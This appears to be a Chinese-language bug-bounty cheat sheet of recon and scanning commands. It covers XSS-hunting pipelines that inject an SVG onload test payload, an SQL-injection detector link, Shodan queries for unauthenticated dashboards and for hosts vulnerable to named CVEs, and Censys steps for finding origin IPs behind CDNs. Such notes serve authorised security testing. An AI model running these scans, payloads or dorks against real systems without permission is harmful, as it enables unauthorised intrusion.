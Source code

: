 **使用 paramspider 和 gxss 来检测跨站脚本攻击（XSS）。**

命令

```
$ cat params | qsreplace yogi | dalfox pipe --mining-dom --deep-domxss --mining-dict --remotepayloads=portswigger,payloadbox --remote wordlists=burp,assetnote -o xssoutput.txt

$ cat alive.txt | waybackurls | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | airixss -payload "confirm(1)" | tee xssBug3.txt
```

**使用 SQLidetector 搜索 SQL 注入攻击。**

```
https://github.com/eslam3kl/SQLiDetector
```

**shodan 搜索技巧**

```
ssl: “target[.]com” 200 http.title: “dashboard” –unauthenticated dashboard
org:“target.com” x-jenkins 200 — unauthenticated jenkins server
ssl:“target.com” 200 proftpd port:21 — proftpd port:21 org:“target.com”
http.html:zabbix — CVE-2022-24255 Main & Admin Portals: Authentication
Bypass org:“target.com” http.title:“phpmyadmin” —-php my admin
ssl:“target.com” http.title:"BIG-IP —F5 BIG-IP using CVE-2020-5902
```

**censys**

Censys: https://www.censys.io/

**使用 censys 查找真实 ip**

登录到 censys 并转到 censys 搜索页面选择证书，然后在证书中像这样搜索您的目标

![图片](F:\Images\censys查询真实ip.png)

现在打开任何证书，在右侧找到 Explore，将鼠标悬停在它上面并单击主机。

![图片](F:\Images\opencert.png)

现在在主机中复制你找到的每个 IP 并尝试在新选项卡中打开它.

**第二种获取 ip 方法**

登录，这次将您的目标放在主机中。

![图片](https://mmbiz.qpic.cn/mmbiz_png/RRrILrELHYibO4yc2fMuibvsB8A6DiaZC3ecGy7KfWdCweCoEsxJkf9R5wYSJ33a91wF8msujJ3ckJ9tQibTJia6rBA/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1)

现在选择其他服务系统而不是 Cloudflare 或 Akamai。

![图片](F:\Images\getip.png)

尝试新选项卡中的每个 IP 并检查自主 IP，但确保 cert.CN: 必须是 target.com 而不是其他任何东西，并且 target.com 必须在 cert.CN: 中，而不是在 http.body 或其他东西中。

grep 所有子域，使用 httpx 解析它们或在浏览器中安装多 url opener 扩展和 shodan.io 扩展。
